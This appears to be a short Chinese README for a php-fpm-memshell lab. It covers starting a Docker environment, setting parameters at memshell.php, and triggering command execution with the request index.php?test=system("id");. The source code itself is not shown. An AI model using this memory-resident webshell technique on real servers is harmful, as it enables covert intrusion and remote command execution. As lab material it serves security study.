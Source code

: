 # php-fpm-memshell

使用方法

```
docker-compose up -d
```

首先访问memshell.php，设置参数之后submit

<img src="https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220916172144755.png" alt="image-20220916172144755" style="zoom:67%;" />

之后访问`index.php?test=system("id");`即可触发

<img src="https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220916172254753.png" alt="image-20220916172254753" style="zoom:67%;" />

参考环境搭建：
https://github.com/mikechernev/dockerised-php  
https://tttang.com/archive/1720/
